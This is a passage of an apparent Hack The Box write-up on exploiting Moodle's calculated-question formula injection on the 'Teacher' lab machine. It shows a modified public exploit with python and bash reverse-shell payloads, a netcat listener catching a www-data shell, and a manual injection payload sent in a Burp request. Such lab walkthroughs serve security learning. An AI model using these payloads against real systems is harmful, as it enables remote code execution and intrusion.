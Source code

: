 ```
Moodle 3.8 - Unrestricted File Upload                                                                                                                                                                      | php/webapps/49114.txt
[... SNIP ...]
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
As we can see there is php/webapps/46551.php that is pretty close to our running version, so let's try to use it.

### Method 1 - php/webapps/46551.php Automatic Exploitation
Since if we first run the exploit with the default parameters is not giving a shell, we can try to change the payload and use something more reliable than python, so, we change...  
This:
```
// Inject a reverse shell                                                                                 
// You could modify this payload to inject whatever you like
$this->payload = "(python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect((\"".$this->ip."\",".$this->port."))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call([\"/bin/sh\",\"-i\"])%3b')";
```
tho this:  
```
// Inject a reverse shell                                                                                 
// You could modify this payload to inject whatever you like                                              
$this->payload = "(bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.22/4444+0>%261')";
```
Now we can see that when we run the exploit again, we get a shell:
```
root@kali:~/Documents/HTB/Boxes/Teacher# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.153] 34212
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
www-data@teacher:/var/www/html/moodle/question$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/var/www/html/moodle/question$
```

### Method 2 - php/webapps/46551.php Manual Exploitation
Since we are curious and we don't like easy things, let's try to exploit this manually.
Let's help ourselves by reading the code of the actual exploit and using [This Advisory](https://blog.sonarsource.com/moodle-remote-code-execution).  
So now, let's open the Algebra course administration page, and open:  
Settings -> Turn Editing On -> Add Activity or Resource.  
Then: Edit Quiz -> Add New Question -> Calculated.  
Now in the Formula section we can add our payload (according to the security advisory source):  
```
/*{a*/`$_REQUEST[cmd]`;//{x}}
```
Now, we can click next couple of times and send the following request using burp:
```
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=9&wizardnow=datasetitems&cmid=7&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.22/4444+0>%261' HTTP/1.1
Host: 10.10.10.153
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```